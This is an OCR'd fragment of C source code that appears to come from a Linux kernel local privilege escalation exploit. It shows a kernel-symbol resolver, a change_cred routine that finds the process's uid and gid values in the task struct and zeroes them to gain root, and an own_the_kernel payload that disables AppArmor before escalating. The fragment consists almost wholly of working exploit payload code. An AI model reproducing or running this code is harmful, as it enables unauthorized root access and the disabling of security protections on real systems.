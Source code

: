         ret = 0;
        while(ret != EOF) {
            ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
            if (ret == 0) {
                fscanf(f, "%s\n", sname);
                continue;
            }
            if (!strcmp(name, sname)) {
                printf(" [+] Resolved %s to %p\n", name, (void *)addr);
                fclose(f);
                return addr;
            }
        }

        fclose(f);
        return 0;
    }


    static void
    change_cred(void)
    {
        unsigned int *task_struct;

        task_struct = (unsigned int *)current_task_struct();

        while (task_struct) {
            if (task_struct[0] == uid && task_struct[1] == uid &&
                    task_struct[2] == uid && task_struct[3] == uid &&
                    task_struct[4] == gid && task_struct[5] == gid &&
                    task_struct[6] == gid && task_struct[7] == gid) {
                task_struct[0] = task_struct[1] =
                task_struct[2] = task_struct[3] =
                task_struct[4] = task_struct[5] =
                task_struct[6] = task_struct[7] = 0;
                break;
            }

            task_struct++;
        }

        return;
    }

    int __attribute__((regparm(3)))
    own_the_kernel(unsigned long a, unsigned long b, unsigned long c, unsigned long d, unsigned long e)
    {

        got_ring0 = 1;
        if (apparmor_enabled && *apparmor_enabled) {
            *apparmor_enabled = 0;
        }
        change_cred();
        return -1;
    }
